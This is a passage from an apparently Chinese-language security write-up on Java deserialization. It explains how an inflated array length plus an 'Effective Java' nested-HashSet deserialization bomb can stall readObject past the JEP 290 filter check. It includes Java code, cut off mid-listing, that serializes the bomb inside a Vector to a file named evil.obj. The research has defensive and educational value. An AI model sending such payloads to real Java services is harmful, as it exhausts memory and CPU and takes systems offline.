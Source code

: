 （注意箭头上面实际上有个filterCheck，这个就是JEP290的检查点）

[![](https://p4.ssl.qhimg.com/t017bc2d6d0ccdc7223.png)](https://p4.ssl.qhimg.com/t017bc2d6d0ccdc7223.png)

在创建好指定长度的数组实例后，就会开始依次从流中读取数组中所存储的对象。

由于我们输入的数据实际没有那么长（例如实际数组长度是123，我们修改后的是MAX_INT-2=2147483645个，没有那么多数据），在读取过程中会出现错误，所以此处需要想办法让其卡住，以至于不出错退出。

[![](https://p3.ssl.qhimg.com/t012f95fdd33e2318d5.png)](https://p3.ssl.qhimg.com/t012f95fdd33e2318d5.png)

经过查找发现了一个《effective java》中提到的一个叫反序列化炸弹的技巧，此处不多赘述，请直接看这篇博文：

[https://blog.csdn.net/nevermorewo/article/details/100100048](https://blog.csdn.net/nevermorewo/article/details/100100048)

该技巧可以构造一个特殊的多层HashSet对象，使其序列化数据在反序列化过程中一直执行，不会报错。

利用该技巧使我们构造数组第一个元素为“反序列化炸弹对象”，使其一直停在第一个对象的readObject流程中。



## 序列化包构造

Java原生的`Vector`类中包含Object数组并且支持序列化，我们使用该类进行构造。
1. 使用代码构造原始类：
```
import java.io.FileNotFoundException;
import java.io.FileOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashSet;
import java.util.Set;
import java.util.Vector;

public class test `{`
    public static void main(String[] args)`{`
        //Effective Java的反序列化炸弹部分构造
        Set&lt;Object&gt; root = new HashSet&lt;&gt;();
        Set&lt;Object&gt; s1 = root;
        Set&lt;Object&gt; s2 = new HashSet&lt;&gt;();
        for (int i = 0; i &lt; 100; i++) `{`
            Set&lt;Object&gt; t1 = new HashSet&lt;&gt;();
            Set&lt;Object&gt; t2 = new HashSet&lt;&gt;();
            t1.add("foo"); // Make t1 unequal to t2
            s1.add(t1);  s1.add(t2);
            s2.add(t1);  s2.add(t2);
            s1 = t1;
            s2 = t2;
        `}`
        FileOutputStream FIS = null;
        try `{`
            FIS = new FileOutputStream("evil.obj");
        `}` catch (FileNotFoundException e) `{`
            e.printStackTrace();
        `}`
        try `{`
            ObjectOutputStream OOS = new ObjectOutputStream(FIS);
            Vector&lt;Object&gt; vec = generateObj(root);
            //如果想消耗更多内存可以多加包裹几层vector
            //vec = generateObj(vec);
            OOS.writeObject(vec);
        `}` catch (IOException e) `{`
            e.printStackTrace();
        `}` catch (NoSuchFieldException e) `{`
```